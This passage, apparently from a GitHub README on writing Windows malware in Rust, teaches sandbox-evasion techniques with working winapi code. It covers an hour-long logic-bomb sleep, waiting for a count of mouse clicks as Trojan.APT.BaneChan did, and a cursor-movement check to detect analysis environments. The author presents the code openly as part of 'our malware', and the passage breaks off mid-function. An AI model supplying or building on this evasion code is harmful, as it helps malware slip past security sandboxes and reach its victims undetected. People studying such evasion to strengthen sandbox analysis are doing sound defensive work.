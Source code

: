         * Logic bomb/sleep: By implementing our malware as a logic bomb, we can stall the execution of the malware and have it sleeps.
            * Typically, a sandbox analyzes a malware in around 10-20 minutes, we can just go to sleep for a couple of hours and wake up after the sandbox's processing time!
            * We also can make our malware execute at a specific date and time in the future, defeating the sandbox by waiting it out!
            * Since this does not need to be too complicated, I just let my malware sleep for an hour before executing anything.

              ``` Rust

                use winapi::um::synchapi::Sleep;
                pub fn sleep_for_an_hour() {
                    unsafe { Sleep(3600000) }
                }

              ```

    2. ***Detecting user interaction***
        * Usually, users interact with their computers through mouse clicks and the keyboard, but there is extremly unlikely that there is such human-like interactions in a sandbox.
        * We can make our malware wait for a certain user interactions before executing. The [Trojan.APT.BaneChan](https://www.fireeye.com/blog/threat-research/2013/04/trojan-apt-banechant-in-memory-trojan-that-observes-for-multiple-mouse-clicks.html) sits and waits for a number of mouse clicks before executing its malicious code. I figure we can use this trick!

            ``` Rust

            use winapi::um::winuser::{GetAsyncKeyState, VK_RBUTTON};
            pub fn check_mouse_click(min_clicks: u32) {
                let mut count: u32 = 0;

                while count < min_clicks {
                    let key_left_clicked = unsafe { GetAsyncKeyState(VK_RBUTTON) };
                    if key_left_clicked >> 15 == -1 {
                        count += 1;
                    }
                    unsafe { Sleep(100) };
                }
            }

            ```


        * We can also check the position of the mouse. Since a sandbox does not move the mouse cursor around, we can record the original position, wait for 5 seconds, and record it again. If the mouse position matches exactly, it's highly possible that we are in a sandbox

            ``` Rust

                use winapi::um::winuser::{GetCursorPos};
                use winapi::shared::windef::POINT;
                pub fn check_cursor_position() -> bool {
                  let mut cursor: POINT = POINT { x: 0i32, y: 0i32 };
                  unsafe {
                      GetCursorPos(&mut cursor);
                      let x = cursor.x;
                      let y = cursor.y;
                      Sleep(5000);
                      GetCursorPos(&mut cursor);
